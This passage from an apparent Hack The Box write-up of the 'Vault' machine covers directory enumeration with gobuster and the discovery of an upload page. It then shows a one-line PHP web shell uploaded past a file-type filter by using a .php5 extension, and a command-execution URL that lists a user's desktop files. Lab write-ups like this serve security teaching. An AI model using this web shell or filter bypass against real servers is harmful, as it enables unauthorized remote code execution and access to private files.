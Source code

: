 ### Web enumeration

There's not much on the main page except a mention about `Sparklays`

![](/assets/images/htb-writeup-vault/web.png)

A gobuster scan with `big.txt` in the root directory reveals nothing but if we start with `/sparklays` we find a few directories:

```
# gobuster -q -t 50 -w big.txt -u http://vault.htb -s 200,204,301,302,307

# gobuster -q -t 50 -w big.txt -u http://vault.htb/sparklays -s 200,204,301,302,307
/design (Status: 301)

# gobuster -q -t 50 -w big.txt -u http://vault.htb/sparklays/design -s 200,204,301,302,307
/uploads (Status: 301)
```

Further scanning with `raft-small-words` and `.html` extension reveals `design.html`:

```
# gobuster -q -t 50 -w raft-small-words.txt -u http://vault.htb/sparklays/design -x php,html -s 200,204,301,302,307
/uploads (Status: 301)
/design.html (Status: 200)
```

![](/assets/images/htb-writeup-vault/design.png)

The link goes to an upload page. Upload pages are interesting because if we can upload a PHP file then we can get RCE on the target machine.

![](/assets/images/htb-writeup-vault/changelogo.png)

I used a simple PHP command shell:

```php
<html><head></head><body><pre>
<?php system($_GET["cmd"]); ?>
</pre></body></html>
```

When we try to upload a simple PHP command shell we get a `sorry that file type is not allowed` error message.

After trying a few different file types, I noticed we can use the `.php5` file extension and we get a `The file was uploaded successfully` message.

We now have RCE:

![](/assets/images/htb-writeup-vault/rce.png)

Found a couple of interesting files in Dave's desktop folder:

**http://vault.htb/sparklays/design/uploads/shell.php5?cmd=ls%20-l%20/home/dave/Desktop**
```
total 12
-rw-rw-r-- 1 alex alex 74 Jul 17 10:30 Servers
-rw-rw-r-- 1 alex alex 14 Jul 17 10:31 key
-rw-rw-r-- 1 alex alex 20 Jul 17 10:31 ssh
```
